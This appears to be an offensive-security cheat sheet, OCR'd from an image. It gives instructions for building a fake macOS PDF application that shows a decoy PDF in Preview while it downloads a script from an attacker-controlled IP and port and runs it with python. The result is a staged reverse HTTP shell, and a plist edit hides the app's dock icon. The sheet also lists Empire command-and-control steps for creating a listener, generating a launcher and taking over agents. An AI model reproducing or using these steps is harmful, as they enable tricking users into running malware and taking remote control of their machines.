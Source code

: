 ## Fake macos pdf to staged reverse http shell 

[https://cloudconvert.com/png-to-icns](https://cloudconvert.com/png-to-icns) -> get a 256 byte square png and make it a icns
```
do shell script "s=<IP>:<PORT>; curl -s $s/real.pdf | open -f -a Preview.app & curl -s $s/script | python -"
```

Add this to to Info.plist just above CFBundleAllowMixedLocalizations, the app will no longer spawn two icons in the dock
```plist
<key>NSUIElement</key>
<string>1</string>
```

## Empire
```bash
rm -rf /opt/Empire/downloads/*

empire

listeners
uselistener http
info
set Name ${listener_name}
set Port ${listener_port}
set Host ${listener_ip}
execute

back
list
launcher python ${listener_name}

main 
agents
list
rename ${old_name} ${new_name}
interact ${new_name} 
shell 
```
